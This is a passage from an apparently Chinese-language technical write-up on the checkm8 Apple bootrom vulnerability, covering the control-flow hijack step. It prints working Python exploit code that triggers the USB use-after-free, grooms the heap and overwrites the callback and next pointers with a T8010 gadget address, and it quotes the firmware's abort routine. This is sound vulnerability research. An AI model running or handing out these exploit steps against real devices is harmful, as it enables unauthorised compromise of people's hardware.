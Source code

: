 ## 控制流劫持

libusb1_async_ctrl_transfer向设备发起DFU_DNLOAD请求，在等待0.0001秒之后取消数据传输。在此过程中handle_interface_request函数把io_buffer指针赋值给ep0_data_phase_buffer。

libusb1_no_error_ctrl_transfer向设备发出DFU_CLR_STATUS请求，getDFUImage释放USB资源，2个zlp对象驻留在堆上面。

```python
  libusb1_async_ctrl_transfer(device, 0x21, 1, 0, 0, 'A' * 0x800, 0.0001)
  libusb1_no_error_ctrl_transfer(device, 0x21, 4, 0, 0, 0, 0)  #触发漏洞
```

这两步完成之后堆的布局如下：

![checkm8-第 23 页.jpg](/assets/posts/2025-05-25-深入分析苹果设备-checkm8-漏洞/checkm8-%E7%AC%AC_23_%E9%A1%B5.jpg)

usb_req_leak会在第二轮getDFUImage过程中在堆上申请到一个usb_device_io_request对象用于被覆盖。

覆盖到callback和next指针的距离是0x5E0，分别用t8010_nop_gadget和0x1800B0800覆盖callback和next指针。

```python

t8010_nop_gadget = 0x10000CC6C
t8010_overwrite = '\0' * 0x5c0 + struct.pack('<32x2Q', \
											t8010_nop_gadget, 0x1800B0800)
											
for i in range(config.leak): # for i in range(1)
	usb_req_leak(device)       # 分配usb_device_io_request对象被覆盖

#覆盖usb_device_io_request对象的callback和next指针
libusb1_no_error_ctrl_transfer(device, 0, 0, 0, 0, t8010_overwrite, 100)
```

向设备发送重置命令，设备进入到USB重置流程，执行synopsys_otg_abort_endpoint函数，释放io链表上面的所有usb_device_io_request对象。

```c
static void synopsys_otg_abort_endpoint(u_int32_t endpoint){

	......
	
	aborted_list = ep->io_head;
	ep->io_head = ep->io_tail = NULL;
	
	......

	while(aborted_list) {
		struct usb_device_io_request *aborted_req = aborted_list;
		aborted_list = aborted_req->next;
		aborted_req->status = USB_IO_ABORTED;
		usb_core_complete_endpoint_io(aborted_req);
	}
}
```
